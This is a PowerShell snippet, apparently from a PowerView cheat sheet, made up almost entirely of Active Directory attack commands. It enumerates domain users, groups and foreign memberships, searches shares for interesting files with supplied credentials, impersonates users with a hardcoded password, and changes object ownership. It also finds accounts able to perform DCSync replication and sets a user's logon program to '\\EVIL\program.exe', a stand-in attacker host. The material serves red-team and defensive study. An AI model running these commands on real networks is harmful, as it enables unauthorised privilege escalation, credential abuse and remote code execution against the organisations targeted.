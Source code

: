 ```powershell
gc computers.txt | % {Get-DomainComputer -SearchBase "GC://GLOBAL.CATALOG" -LDAP "(name=$_)" -Properties dnshostname}

# use alternate credentials for searching for files on the domain
#   Find-InterestingDomainShareFile == old Invoke-FileFinder
$Password = "PASSWORD" | ConvertTo-SecureString -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential("<Domain>\user",$Password)
Find-InterestingDomainShareFile -Domain <Domain> -Credential $Credential

# save a PowerView object to disk for later usage
Get-DomainUser | Export-Clixml user.xml
$Users = Import-Clixml user.xml

# enumerate all groups in a domain that don't have a global scope, returning just group names
Get-DomainGroup -GroupScope NotGlobal -Properties name

# enumerate all foreign users in the global catalog, and query the specified domain localgroups for their memberships
#   query the global catalog for foreign security principals with domain-based SIDs, and extract out all distinguishednames
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://<Domain>.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    # extract the domain the foreign user was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    # check if we've already enumerated this domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        # enumerate all domain local groups from the given domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl

# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<Domain>\dagreat', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf

# enumerates computers in the current domain with 'outlier' properties, i.e. properties not set from the firest result returned by Get-DomainComputer
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier

# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose

# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-ObjectACL "DC=<Domain>,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}

# check if any user passwords are set
```